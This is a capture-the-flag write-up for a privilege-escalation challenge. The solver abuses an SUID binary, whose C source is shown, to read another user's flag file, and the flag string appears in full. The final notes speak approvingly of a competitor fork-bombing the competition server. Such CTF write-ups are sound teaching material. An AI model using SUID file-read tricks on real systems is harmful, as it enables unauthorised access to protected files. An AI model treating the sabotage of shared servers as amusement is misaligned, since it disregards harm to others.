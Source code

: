 ## Challenge ~
With access to `10.128.0.5` your goal is to escelate priveleges to the `breakme-harder` user. Ultimately your goal is simply to read out the flag in `/home/breakme-harder/`.
<br>

`range.final.hackabit.com`

<br>

<div align="center">
  <b>IMPORTANT -- CHALLENGES IN RANGE WILL BE LESS DESCRIPTIVE SINCE THE MACHINES HOSTING THE CHALLENGES ARE DOWN</b>
</div>
    
<br>
<br>
    
## Solution ~
From the previous challenge `Rightface`, we are still in the shell and are told to read a text file in the directory of the `breakme-harder` user. Using just cat will not work because we don't have the premissions to do so. Instead, we look at the files given to us in the `breakme` user:

```
-$ ls -l

## Looks something like:

escalator
escalator.c
flag.txt
```

The <i>C</i> script `escalator.c` seems interesting. Upon further investigation into the file we get:

```c
#include <stdio.h>

int main(int argc, char *argv[]) {
    FILE *file;
    char ch;

    // Check if a filename argument is provided
    if (argc < 2) { return 1; }

    // Open the file in read mode
    file = fopen(argv[1], "r");
  
    // Check if the file was opened successfully
    if (file == NULL) {
        printf("An error occured.\n");
        return 1;
    }

    // Read and print each character from the file
    while ((ch = fgetc(file)) != EOF) {
        putchar(ch);
    }

    // Close the file
    fclose(file);

    return 0;
}
```

Apparently the script takes the argument of a file and displays the contents. Also, told to me by another competitor, this file's SUID is owned by `breakme-harder` meaning that running this would be like `breakme-harder` is running this. Now all we have to do is run the file and have the file as the argument:

```
-$ ./escalator /home/breakme-harder/flag.txt
-$ flag{evaluate_this_my_dude}
```

<br>
<br>

## Final Notes ~
I would have done the last challenge `Aboutface` and the `King of the Hill` parts as well, however the KOTH was on the host of `Aboutface` and that shutdown in a little bit over a day into the competition. I would have, and should have, done the KOTH sooner but I was too focused on the other challenges. Funny enough, the main reason why no one was able to get back into the main servers is because one of the competitors ran a <a href="https://en.wikipedia.org/wiki/Fork_bomb">FORKBOMB</a> 💀 on the server at the end of the competition. However, it was funny and was awesome to see something burn and fall apart in the end, like fireworks or something. All in all, this competition was a blast and can't wait for 0x02!
